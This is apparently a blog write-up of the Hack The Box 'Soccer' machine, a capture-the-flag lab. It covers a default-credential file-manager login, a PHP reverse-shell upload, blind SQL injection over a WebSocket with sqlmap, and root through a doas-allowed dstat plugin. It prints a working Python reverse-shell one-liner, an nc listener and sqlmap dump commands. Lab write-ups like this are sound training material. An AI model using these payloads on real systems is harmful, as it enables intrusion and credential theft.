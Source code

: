```yaml
---
title: Soccer
date: 2023-08-22 15:53:16 +0800
categories: [Hackthebox, soccer]
tags: [htb, ctf, pentesting, web, unix, prev-esc]
---
```



## Soccer is an easy unix machine on Hackthebox






*Nmap* Scan

```shell 

PORT      STATE    SERVICE         VERSION
22/tcp    open     ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad0d84a3fdcc98a478fef94915dae16d (RSA)
|   256 dfd6a39f68269dfc7c6a0c29e961f00c (ECDSA)
|_  256 5797565def793c2fcbdb35fff17c615c (ED25519)
80/tcp    open     http            nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/

9091/tcp  open     xmltec-xmlmail?


```


Found another entry using *gobuster dir*

```shell
http://soccer.htb/tiny/ // and it's runing Tinyfilemanager service

```

I was able to log in using `Tinyfilemanager` default cridintials

Now I can upload upload my php reverse-shell to `/tiny/uploads` because this is the only one that have write permissions

and `Boom` I got shell

found unpermmited user.txt in `/home/player/`


Found another domain in `/etc/hosts`

`soc-player.soccer.htb`


SignUp and login 

view page source in /check  and

found WebSocket request to `ws://soc-player.soccer.htb:9091`


Because *sqlmap* needs to send request and check response and websockets not offering that

I used a middlware script from https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html
and changed url and data to take `{"id": msg}` 

Now I can pass this middlware server to *sqlmap* like this

```shell
sqlmap -u http://localhost:3000/?id=1 -p id --batch

Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 9421 FROM (SELECT(SLEEP(5)))qoOs)


```


Now it's time to extract some creds from this database

```shell

sqlmap -u http://localhost:3000/?id=1 -p id --risk 3 --level 5  --batch -D soccer_db -T accounts --dump 


+---------+-------------------+----------------------+----------+
| id      | email             | password             | username |
+---------+-------------------+----------------------+----------+
| 1324    | player@player.htb | PlayerOftheMatch2022 | player   |
| <blank> | <blank>           | <blank>              | <blank>  |
+---------+-------------------+----------------------+----------+


```

I got this password

`PlayerOftheMatch2022`

now we can ssh to this machine as `player` user


```shell

ssh player@soc-player.soccer.htb

```
And here we are

```shell
player@soccer:~$

```


Running *Linpeas.sh* found that dstat runing as root with nopassword using doas(e.g doas is similar sudo)
```shell
╔══════════╣ Checking doas.conf
permit nopass player as root cmd /usr/bin/dstat
```
reading the dstat manual found that I can execute external plugins using --<plugin-name> flag

after reading `dstat` source code found that it has tow paths to access plugins from

`/usr/share/dstat/` but only root  can write here
`/usr/local/share/dstat/` so this one looks promising 


So inside of `/usr/local/share/dstat/` I created a fake plugin called `dstat_shell.py` (it should start with `dstat` prefix this is how `dstat` command can access it)

and put this python reverse shell

```py
#! /usr/bin/python3


import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR IP>",1998));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")

```

And in my machine start listning on port 1998

```shell
nc -lnvp 1998
```

And in soccer machine excuted this command

```shell

doas -u root /usr/bin/dstat --shell # --shell = --<plugin-name>

```


And I got a shell

```shell

listening on [any] 1998 ...
connect to [10.10.14.161] from (UNKNOWN) [10.10.11.194] 50998
# id
id
uid=0(root) gid=0(root) groups=0(root)


```

And I'm root

I got the root flag